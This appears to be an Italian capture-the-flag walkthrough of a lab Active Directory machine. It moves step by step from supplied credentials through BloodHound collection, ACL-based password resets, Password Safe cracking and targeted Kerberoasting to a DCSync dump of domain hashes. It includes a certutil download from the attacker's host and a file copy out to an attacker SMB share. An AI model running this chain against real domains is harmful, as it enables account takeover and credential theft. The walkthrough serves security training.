





# Administrator


Machine Information:

```text

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich

```

Target: 10.x.x.x

## Enumerazione iniziale

```bash

$ nmap -p- --min-rate 1000 10.x.x.x 
Host is up (0.059s latency).
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
53642/tcp open  unknown
58769/tcp open  unknown
58774/tcp open  unknown
58785/tcp open  unknown
58796/tcp open  unknown
58829/tcp open  unknown

```

```bash

$ nmap -sCV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.x.x.x
Host is up (0.085s latency).
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-04 16:05:19Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-04T16:05:25
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

```

I risultati della scansione evidenziano la presenza di servizi (Kerberos, LDAP, SMB, etc.) che fanno intendere che la macchina target fa uso di **Active Directory**.
 
Inoltre, e' aperta la porta **FTP** che non e' standard in un **AD domain**.

## /etc/hosts

Il **domain name** `administrator.htb` si ricava come risultato della scansione su **LDAP**.

Altre informazioni sono collezionate con il comando **netexec**.

```bash

$ nxc smb 10.x.x.x
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)

```

Si ricava un **hostname** `DC`.

Si aggiorna il file `/etc/hosts`.

```bash

$  echo '10.x.x.x DC DC.administrator.htb administrator.htb' | sudo tee -a /etc/hosts

```

## Credenziali iniziali

Tra le informazioni della macchina sono presenti anche delle credenziali, `Olivia:ichliebedich`.

Si ha accesso con **SMB**.

```bash

$ nxc smb 10.x.x.x -u olivia -p 'ichliebedich'           
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\olivia:ichliebedich 

```

Si ha accesso con **WinRM**.
 
```bash

$ nxc winrm 10.x.x.x -u olivia -p 'ichliebedich'           
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.x.x.x  5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)

```

Non si ha accesso con **FTP**.

```bash

$ nxc ftp 10.x.x.x -u olivia -p 'ichliebedich'
FTP         10.x.x.x  21     10.x.x.x   [-] olivia:ichliebedich (Response:530 User cannot log in, home directory inaccessible.)

```

## Information Gathering

### SMB as Olivia

Con le credenziali di `olivia` si enumerano le **shares**.

```bash

nxc smb 10.x.x.x -u olivia -p 'ichliebedich' --shares
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.x.x.x  445    DC               [*] Enumerated shares
SMB         10.x.x.x  445    DC               Share           Permissions     Remark
SMB         10.x.x.x  445    DC               -----           -----------     ------
SMB         10.x.x.x  445    DC               ADMIN$                          Remote Admin
SMB         10.x.x.x  445    DC               C$                              Default share
SMB         10.x.x.x  445    DC               IPC$            READ            Remote IPC
SMB         10.x.x.x  445    DC               NETLOGON        READ            Logon server share 
SMB         10.x.x.x  445    DC               SYSVOL          READ            Logon server share 

```

Ed anche gli **users**.

```bash

$ nxc smb 10.x.x.x -u olivia -p 'ichliebedich' --users 
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.x.x.x  445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                
SMB         10.x.x.x  445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain
SMB         10.x.x.x  445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.x.x.x  445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account 
SMB         10.x.x.x  445    DC               olivia                        2024-10-06 01:22:48 0        
SMB         10.x.x.x  445    DC               michael                       2024-10-06 01:33:37 0        
SMB         10.x.x.x  445    DC               benjamin                      2024-10-06 01:34:56 0        
SMB         10.x.x.x  445    DC               emily                         2024-10-30 23:40:02 0        
SMB         10.x.x.x  445    DC               ethan                         2024-10-12 20:52:14 0        
SMB         10.x.x.x  445    DC               alexander                     2024-10-31 00:18:04 0        
SMB         10.x.x.x  445    DC               emma                          2024-10-31 00:18:35 0        
SMB         10.x.x.x  445    DC               [*] Enumerated 10 local users: ADMINISTRATOR

```

### WinRM as Olivia

Si accede alla shell con le credenziali di `olivia`.

```bash

evil-winrm -i 10.x.x.x -u olivia -p 'ichliebedich'

```

Nella cartella `/home` di `olivia` non ci sono **files**.

```powershell

*Evil-WinRM* PS C:\Users\olivia> tree /f .                                                                                                                              
Folder PATH listing                                                                                                                                                     
Volume serial number is 000002DE 6131:DE70                                                                                                                              
C:\USERS\OLIVIA                                                                                                                                                         
+---Desktop                                                                                                                                                             
+---Documents                                                                                                                                                           
+---Downloads                                                                                                                                                           
+---Favorites                                                                                                                                                           
+---Links                                                                                                                                                               
+---Music                                                                                                                                                               
+---Pictures                                                                                                                                                            
+---Saved Games                                                                                                                                                         
+---Videos

```

Nella cartella `root` del file system sono presenti directory standard di Windows.

```powershell

*Evil-WinRM* PS C:\> ls                                                                                                                                                 
    Directory: C:\                                                                                                                                                                                                                                                                      
Mode                 LastWriteTime         Length Name                                                                                                                  
----                 -------------         ------ ----                                                                                                                  
d-----        10/29/2024   1:05 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---        10/30/2024   4:53 PM                Program Files
d-----        10/30/2024   4:42 PM                Program Files (x86)
d-r---          9/4/2025   9:36 AM                Users
d-----         11/1/2024   1:50 PM                Windows

``` 


L'utente `olivia` non ha i permessi di accesso alla directory `ftproot`.

```powershell

*Evil-WinRM* PS C:\inetpub> ls


    Directory: C:\inetpub


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/29/2024   1:05 PM                custerr
d-----         10/5/2024   7:14 PM                ftproot
d-----         11/1/2024   1:27 PM                history
d-----         10/5/2024   9:59 AM                logs
d-----         10/5/2024   9:59 AM                temp


*Evil-WinRM* PS C:\inetpub> cd ftproot
*Evil-WinRM* PS C:\inetpub\ftproot> ls
Access to the path 'C:\inetpub\ftproot' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\inetpub\ftproot:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

```

`Olivia` non possiede privilegi particolari.


```powershell

Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
administrator\olivia S-1-5-21-1088858960-373806567-254189436-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes 
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

### Bloodhound

#### Collection

Si utilizza **SharpHound** per l'*information gathering* del dominio **AD**.

Si avvia un server nella macchina Kali e si scarica il file remoto nella macchina target con il comando **certutil**.

```powershell

*Evil-WinRM* PS C:\Users\olivia\Documents> certutil -urlcache -f http://10.10.16.28:9001/SharpHound.exe C:\Users\olivia\Desktop\SharpHound.exe                          
****  Online  ****                                                                                                                                                      
CertUtil: -URLCache command completed successfully.

```

Si collezionano i dati per **BloodHound**.

```powershell

*Evil-WinRM* PS C:\Users\olivia\Desktop> ls


    Directory: C:\Users\olivia\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/4/2025   1:32 PM        1308672 SharpHound.exe

*Evil-WinRM* PS C:\Users\olivia\Desktop> .\SharpHound.exe -c all

*Evil-WinRM* PS C:\Users\olivia\Desktop> ls *.zip


    Directory: C:\Users\olivia\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/4/2025   1:33 PM          27601 20250904133337_BloodHound.zip

```

Si istanzia un **SMB server** nella macchina Kali e si crea la share denominata **share**.

```bash

$ impacket-smbserver -smb2support -username ap -password ap share .

```

Si carica il file `20250904133337_BloodHound.zip` nella share.

```powershell

*Evil-WinRM* PS C:\Users\olivia\Desktop> net use \\10.10.16.28 /u:ap ap

*Evil-WinRM* PS C:\Users\olivia\Desktop> copy 20250904133337_BloodHound.zip \\10.10.16.28\share\

```

#### Analysis

Si visualizza e analizzano i dati raccolti del **AD domain**.



Olivia possiede i permessi di **FullControl** per l'utente `michael`.



Michael e' membro del gruppo **Remote Management Users**, quindi ottenendo le sue credenziali si ha accesso alla sua **shell**.

## WinRM as Michael

`GenericAll`

```bash

$ net rpc password 'michael' 'Password123!' -U 'administrator.htb'/'olivia'%'ichliebedich' -S 'DC'

$ nxc smb 10.x.x.x -u 'michael' -p 'Password123!'   
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\michael:Password123! 

$ evil-winrm -i 10.x.x.x -u 'michael' -p 'Password123!'

$ nxc ftp 10.x.x.x -u 'michael' -p 'Password123!'
FTP         10.x.x.x  21     10.x.x.x   [-] michael:Password123! (Response:530 User cannot log in, home directory inaccessible.)

```

## Win

`ForceChangePassword`

```bash

$ net rpc password 'benjamin' 'Password321!' -U 'administrator.htb'/'michael'%'Password123!' -S 'DC'

$ nxc winrm 10.x.x.x -u 'benjamin' -p 'Password321!'                                
WINRM       10.x.x.x  5985   DC               [-] administrator.htb\benjamin:Password321!

$ nxc ftp 10.x.x.x -u 'benjamin' -p 'Password321!'
FTP         10.x.x.x  21     10.x.x.x   [+] benjamin:Password321!

$ nxc ftp 10.x.x.x -u 'benjamin' -p 'Password321!' --ls
FTP         10.x.x.x  21     10.x.x.x   [+] benjamin:Password321!
FTP         10.x.x.x  21     10.x.x.x   [*] Directory Listing

$ nxc ftp 10.x.x.x -u 'benjamin' -p 'Password321!' --get Backup.psafe3
FTP         10.x.x.x  21     10.x.x.x   [+] benjamin:Password321!
FTP         10.x.x.x  21     10.x.x.x   [+] Downloaded: Backup.psafe3

```

> Password Safe (PS)


```bash

$ pwsafe2john Backup.psafe3 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050

$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash

$ john --show backup.hash
tekieromucho    (Backu)

```

Si utilizza **pwsafe** per accedere al contenuto del file protetto.

```bash

$ pwsafe Backup.psafe3

```



Si ottengono le crendenziali di `alexander`, `emily` ed `emma`.

```text

alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur

```

Si tenta l'accesso tramite **smb**.

```bash

$ nxc smb 10.x.x.x -u 'alexander' -p 'UrkIbagoxMyUGw0aPlj9B0AXSea4Sw'
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw STATUS_LOGON_FAILURE 

$ nxc smb 10.x.x.x -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'     
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 

$ nxc smb 10.x.x.x -u 'emma' -p 'WwANQWnmJnGV07WQN8bMS7FMAbjNur'
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur STATUS_LOGON_FAILURE

```

Le credenziali di `emily` sono valide.

Si verifica la possibilita' di accesso tramite **winrm**.

```bash

$ nxc winrm 10.x.x.x -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.x.x.x  5985   DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb (Pwn3d!)

```

L'utente `emily` ha accesso alla **shell**.

## WinRM come Emily

```bash

$ evil-winrm -i 10.x.x.x -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```

```powershell

*Evil-WinRM* PS C:\Users\emily> tree /f .
Folder PATH listing
Volume serial number is 6131-DE70
C:\USERS\EMILY
+---3D Objects
+---Contacts
+---Desktop
¦       Microsoft Edge.lnk
¦       user.txt
¦
+---Documents
+---Downloads
+---Favorites
¦   ¦   Bing.url
¦   ¦
¦   +---Links
+---Links
¦       Desktop.lnk
¦       Downloads.lnk
¦
+---Music
+---Pictures
+---Saved Games
+---Searches
+---Videos

*Evil-WinRM* PS C:\Users\emily> type Desktop\user.txt
2779deb465e9ded0445bb2d3927c048f

```

## Auth as Ethan



`GenericWrite`

> Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user.

`TargetedKerberoasting`


> https://github.com/ShutdownRepo/targetedKerberoast

```bash

$ sudo timedatectl set-ntp off                                                                                    

$ sudo rdate -n 10.x.x.x                                                                                      
Thu Sep  4 20:27:26 EDT 2025            

$ targetedKerberoast.py -v -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -d 'administrator.htb' --dc-ip 10.x.x.x
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$b2698bee8fc3c7bd9c130e6233f3a108$6e8cc833ddb97dc08ddcd1ae42afddf9edb53b5bdd7305f23bd1bee9aedadad3057e2af1908c5062461fd36e79d3e3adff34540360d9e3aedece54eec07ebb2dc95ef0bef2baa53874fa167fc63bb58bf6f531a2fcea7f33c34818ef2e44865938943817ef764af2a5c0e95fc78a45e15a8885ac6b0dfc1431969837d2f1b0cd836cfcff90846c7db19130fa6cdd1d128708ea9ed25b73d8438f44bd1837f6f432e20291ed577d1f3c10f7d7b1ba2915e548968892ba505c1e7d7937ba8fa6b598b89d955c2c612c7e9b484b16b9f760987cf1aff85e66f5d0bb7bf2d05bc9608dbd08d5e7089b04ad8ffae50a96bf373d7c7a20234095bcd4f83bb9777c36ad149e6f413c1317becade96837dedfa712481a9f36f003725c51b081eac594a1ba6eaff104845579c9f2307407784fe604edd0a3d4fc8995aacd4864e74df56ac242fcd2dd213923ffd50df220486cb283e62340ff9a01c24c60eb37df17ea89d3c0a8f5b474e99970ed6d6c3e6dd212b9e01f275c503f44c97c6ee28fe9ff9a7adc402e0a7674efad1293f08eb34a1eb6a5833c4115dcedeca8c8b6eb7dca9e59ad73127514e56b7480cbc963e372b7203c3e0bf46b5fd5f039a1d8c6487f9a2a15234419c5a7f9a777d84fe7df3e1b79885784778790df1c1dff2fd91400844a8b3945e6249883ec88e8fa5ff962a47223cacb51c95aebd211f7a53f45633c9b01acecaf930ee31e1b21f72ed665f2ea1ec43f51a9275d332fb07f546c3cadccef5d585862ed01ea5f2fe65b19668ea4a82b5f5483659c88656db7319113daa91ba73ae8a0dde02d221e85661fd198d2941627757a7b818e5fe08e6b7690360b0521b5f854196b6f59186d1c6412ce00d3ecac2d4548393d341d3c98e6eb1a824d81d00f3206f984af50fbadbc29a4ef8864560d4a74683218c4d2c86d1e8fd693826e54ab083549b893ad912ac37bb439ed445c4161ec67d63b5fed89369f4f5f642e3afd87c6be1812212ef7ab22ed0bb3db8a443d4407c80ef493add735ee3622386d090edce53f1eaec8f8a33015720115addbba62bbc0f8b58ea9efd1964c77c8d21fb161abff24c4f2397d7a98ab6b86ffa3f9b4d18890415de2ee4b940f27e4c9454c6970c5f0f4193e55d75258c01d50b8e5af26e37d5296e1f0946c707d7fdbf2ac7e426ba5021b9d6ed76c6bd264aef8966b5b2687ee909a11bb2bc807ed6812158bf3405a548b5bce5b2b7041abbc1eea6c8cc45040fae8a48762ab48b2ed83f96f4dd0c7f93b70b1ea72c6f9c26f3c661e1b0dfdfe2b4d6813079f434cfd064b579125cd5e25aaae7e895d17a3538403a94c86d197a3624c08bc1dde0fde9c585b8d3aca802405aefdc2ddc7fb3a522622026919db195c235c801f24a01dcdfc9d4d0ef563f1da576c1513628e5e49b654422dbac25c5d0ace738abdb3801316d2403c6958e4a16357e7e2ced5ce39e970c00d9db1c41dd394d76a6449c1d99b18a3c18e65896991189795a12d489b68d9daa65a90a58f865
[VERBOSE] SPN removed successfully for (ethan)

$ john --wordlist=/usr/share/wordlists/rockyou.txt ethan.hash

$ nxc smb administrator.htb -u 'ethan' -p 'limpbizkit'
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.x.x.x  445    DC               [+] administrator.htb\ethan:limpbizkit 

```

Le credenziali ottenute sono `ethan:limpbizkit`.



`GetChanges`, `GetChangesAll` => `DCSync Attack`

```bash

$ impacket-secretsdump 'ethan':'limpbizkit'@'dc.administrator.htb'

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                           
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::                                                                                  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                          
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::                                                                                         
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::                                                                      
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:8864a202387fccd97844b924072e1467:::                                                                     
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:95687598bfb05cd32eaa2831e0ae6850:::                                                                    
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::                                                                       
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::                                                                       
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::                                                                   
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::                                                                        
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3::: 

[*] Kerberos keys grabbed                                                                                                                                               
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664                                                                  
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2                                                                                                  
Administrator:des-cbc-md5:403286f7cdf18385                                                                                                                              
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648                                                                         
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94                                                                                                         
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7                                                                                                                                     
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3                                                       
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48                                                                                       
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9                                                                                                                   
administrator.htb\michael:aes256-cts-hmac-sha1-96:b360c36cb6777b8cc3d88ab1aa60f0064e6ea4fc9b9a4ebacf66345118c0e959                                                      
administrator.htb\michael:aes128-cts-hmac-sha1-96:bc3c8269d1a4a82dc55563519f16de8b                                                                                      
administrator.htb\michael:des-cbc-md5:43c2bc231598012a                                                                                                                  
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:a0bbafbc6a28ed32269e6a2cc2a0ccb35ac3d7314633815768f0518ebae6847f                                                     
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:426ca56d39fe628d47066fc3448b645e                                                                                     
